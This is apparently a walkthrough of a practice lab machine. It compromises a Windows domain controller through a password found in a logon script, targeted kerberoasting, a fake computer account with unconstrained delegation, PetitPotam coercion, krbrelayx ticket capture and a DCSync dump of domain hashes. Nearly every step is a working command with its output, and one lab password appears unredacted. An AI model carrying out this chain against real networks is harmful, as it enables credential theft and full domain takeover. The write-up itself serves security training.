

A medium-level Windows machine created by Geiseric.
It includes sections where we abuse the GenericWrite permission and the Kerberos Unconstrained Delegation vulnerability.
This machine is a great starting point for practicing Unconstrained Delegation in a practical way.


Let's start with a classic Nmap scan:


```zsh
➜  delegate nmap -p- 10.10.115.170 --min-rate 10000 -oN port.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-29 11:45 EDT
Nmap scan report for 10.10.115.170
Host is up (0.072s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
47001/tcp open  winrm
49665/tcp open  unknown
49684/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.53 seconds

```


After a few attempts, it seems that we can access the shares using the guest account.

```zsh
➜  delegate netexec smb 10.10.115.170 -u '' -p ''
SMB         10.10.115.170   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         10.10.115.170   445    DC1              [+] delegate.vl\: 
➜  delegate netexec smb 10.10.115.170 -u '' -p '' --users
SMB         10.10.115.170   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.10.115.170   445    DC1              [+] delegate.vl\: 
➜  delegate netexec smb 10.10.115.170 -u 'guest' -p '' --users
SMB         10.10.115.170   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.10.115.170   445    DC1              [+] delegate.vl\guest: 
➜  delegate netexec smb 10.10.115.170 -u '' -p '' --shares    
SMB         10.10.115.170   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.10.115.170   445    DC1              [+] delegate.vl\: 
SMB         10.10.115.170   445    DC1              [-] Error enumerating shares: STATUS_ACCESS_DENIED
➜  delegate netexec smb 10.10.115.170 -u 'guest' -p '' --shares
SMB         10.10.115.170   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.10.115.170   445    DC1              [+] delegate.vl\guest: 
SMB         10.10.115.170   445    DC1              [*] Enumerated shares
SMB         10.10.115.170   445    DC1              Share           Permissions     Remark
SMB         10.10.115.170   445    DC1              -----           -----------     ------
SMB         10.10.115.170   445    DC1              ADMIN$                          Remote Admin
SMB         10.10.115.170   445    DC1              C$                              Default share
SMB         10.10.115.170   445    DC1              IPC$            READ            Remote IPC
SMB         10.10.115.170   445    DC1              NETLOGON        READ            Logon server share 
SMB         10.10.115.170   445    DC1              SYSVOL          READ            Logon server share 

```

I used impacket-smbclient to connect to the SMB share and downloaded a .bat file found there.

```zsh
➜  delegate impacket-smbclient delegate.vl/guest@dc1.delegate.vl -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use NETLOGON
# ls
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 .
drw-rw-rw-          0  Sun Oct  1 05:08:32 2023 ..
-rw-rw-rw-        159  Sun Oct  1 05:08:32 2023 users.bat
# get users.bat
# exit
➜  delegate cat users.bat 
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator [REDACTED]   
```

It looks like there is a credential here to connect to the file server; we can test whether it's valid.


```zsh
➜ delegate netexec smb 10.10.115.170 -u 'A.Briggs' -p '[REDACTED]'
SMB         10.10.115.170   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False) 
SMB         10.10.115.170   445    DC1              [+] delegate.vl\A.Briggs:[REDACTED] 
```

Great. Now let's see what we can do with this user using BloodHound.

```zsh
➜ delegate sudo bloodhound-python -u 'A.Briggs' -p '[REDACTED] -ns 10.10.115.170 -d delegate.vl -c all        
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: delegate.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc1.delegate.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc1.delegate.vl
INFO: Found 9 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC1.delegate.vl
INFO: Done in 00M 15S
```


According to BloodHound, we have GenericWrite rights over the user N.Thompson.
In an environment with ADCS, we could have used the ShadowCredentials method.
Since ADCS is not present here, we'll try to kerberoast N.Thompson and crack their hash.


<figure><figcaption></figcaption></figure>


```zsh
➜  targetedKerberoast git:(main) ./targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123'   
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (N.Thompson)
[+] Printing hash for (N.Thompson)
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$b76262971eca896931a4fd8281fe5a05$6386954381bf61601aa0ef3ce39380db81b55fcec6528628ce7148bbdcede55909131e6136adc44c495[SNIP]ccd3a78b4a7772a2d226455feac7d91248bd3b5e57352dd2b05439e97092528b2d916664d2217e7efc3
[VERBOSE] SPN removed successfully for (N.Thompson)
```


Let's try to crack it offline using hashcat.

```zsh
➜  delegate hashcat -a 0 -m 13100 n.thompson.kerberoastble /usr/share/wordlists/rockyou.txt 
hashcat (v7.1.2) starting

[SNIP]
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$b76262971eca896931a4fd8281fe5a05$6386954381bf61601aa0ef3ce39380db81b55fcec6528628ce7148bbdcede55909131e6136adc44c495[SNIP]ccd3a78b4a7772a2d226455feac7d91248bd3b5e57352dd2b05439e97092528b2d916664d2217e7efc3:[REDACTED]
                                                          
[SNIP]

Started: Wed Oct 29 12:09:42 2025
Stopped: Wed Oct 29 12:09:49 2025
```


Nice!
Since the user N.Thompson is a member of the Remote Management Users group, we should have WinRM access — let's check.

```zsh
➜  delegate netexec winrm 10.10.115.170 -u n.thompson -p '[SNIP]'  
WINRM       10.10.115.170   5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.115.170   5985   DC1              [+] delegate.vl\n.thompson:K[SNIP] (Pwn3d!)
```


While checking groups and privileges here, we see that the user N.Thompson is a member of the Delegation Admins group and has the SeEnableDelegationPrivilege.


```zsh
*Evil-WinRM* PS C:\Users\N.Thompson\desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
DELEGATE\delegation admins                  Group            S-1-5-21-1484473093-3449528695-2030935120-1121 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
*Evil-WinRM* PS C:\Users\N.Thompson\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```

Let me briefly explain what this means.
Simply put, we’re going to abuse unconstrained delegation.

So, how do we do it?
First, we’ll check the MAQ to see what our computer-join quota is for the domain.
Once we confirm it’s not zero, we’ll create a fake computer and add a DNS name to it.
Next, we’ll bind an SPN and enable Trusted_for_Delegation.

Why are we doing this?
Any user who authenticates to our machine will have their TGT ticket issued to us by the DC.

Of course, reading about this in a more technical way can be more helpful — here I’ve just provided a short explanation.
For a detailed read, you can check [this](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1) link


First we need to check n.thompson MAQ.

```zsh
➜  delegate netexec ldap 10.10.115.170 -u n.thompson -p '[REDACTED]' -M maq
LDAP        10.10.115.170   389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
LDAP        10.10.115.170   389    DC1              [+] delegate.vl\n.thompson:[REDACTED] 
MAQ         10.10.115.170   389    DC1              [*] Getting the MachineAccountQuota
MAQ         10.10.115.170   389    DC1              MachineAccountQuota: 10

```

Next, add our computer to the domain.

```zsh
➜  krbrelayx git:(master) impacket-addcomputer  -dc-ip 10.10.111.226 -computer-pass FakeComputer123 -computer-name fakecomp delegate.vl/N.Thompson:'[REDACTED]'            
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account fakecomp$ with password FakeComputer123.
```

Now, let’s assign a DNS name (we’re using our own VPN IP — the computer we added to the domain is ours 🙂).

```zsh
➜  krbrelayx git:(master) python3 dnstool.py -u 'delegate.vl\fakecomp$' -p FakeComputer123 -r fakecomp.delegate.vl -d 10.8.6.29 --action add DC1.delegate.vl -dns-ip 10.10.115.170
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

Now, let’s grant the TRUSTED_FOR_DELEGATION permission so we can obtain the TGT tickets.

```zsh
➜  krbrelayx git:(master) bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p '[REDACTED]' --host 'DC1.delegate.vl' add uac 'fakecomp$' -f TRUSTED_FOR_DELEGATION 
[-] ['TRUSTED_FOR_DELEGATION'] property flags added to fakecomp$'s userAccountControl
```


Let’s link our SPNs, for example the CIFS service.

```zsh
➜  krbrelayx git:(master) python3 addspn.py -u 'delegate.vl\N.Thompson' -p '[REDACTED]' -s 'cifs/fakecomp.delegate.vl' -t 'fakecomp$' -dc-ip 10.10.115.170 DC1.delegate.vl --additional 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

```zsh
➜  krbrelayx git:(master) python3 addspn.py -u 'delegate\n.thompson' -p '[REDACTED]' -s 'cifs/fakecomp.delegate.vl' -t 'fakecomp$' -dc-ip 10.10.115.170 DC1.delegate.vl
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```


First, let’s grap the TGT ticket using krbrelayx.
The DC will send us the TGT ticket for DC1.

To do this, we need to start krbrelayx first.
Then, we force authentication to DC1 using PetitPotam.
There are many tools that can do this, but I used PetitPotam.

```zsh
➜  PetitPotam git:(main) python3 PetitPotam.py -u 'fakecomp$' -p 'FakeComputer123' fakecomp.delegate.vl 10.10.115.170                                                 
/home/kali/tools/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN


Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.115.170[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```


```zsh
➜  krbrelayx git:(master) python3 ./krbrelayx.py -hashes :A75FF4ED0DC379685F025E3E926EEAB6 --target DC1.delegate.vl

[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in attack mode to single host
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.10.115.170
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.10.115.170
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
[SNIP]
[*] SMBD: Received connection from 10.10.115.170
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
[SNIP]
TypeError: SMBRelayClient.initConnection() takes 1 positional argument but 3 were given
```


As we can see, our ticket is here.

```zsh
➜  krbrelayx git:(master) ✗ ls
 addspn.py  'DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'   dnstool.py   krbrelayx.py   lib   LICENSE   printerbug.py   README.md
```

```zsh
➜  export KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```
We can simply export it and use secretsdump to perform a DCSync.


```zsh
➜  krbrelayx git:(master) ✗ impacket-secretsdump dc1.delegate.vl -k -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:[SNIP]:::
fakecomp$:3101:aad3b435b51404eeaad3b435b51404ee:a75ff4ed0dc379685f025e3e926eeab6:::
[SNIP]
[*] Cleaning up... 
```

That's it!


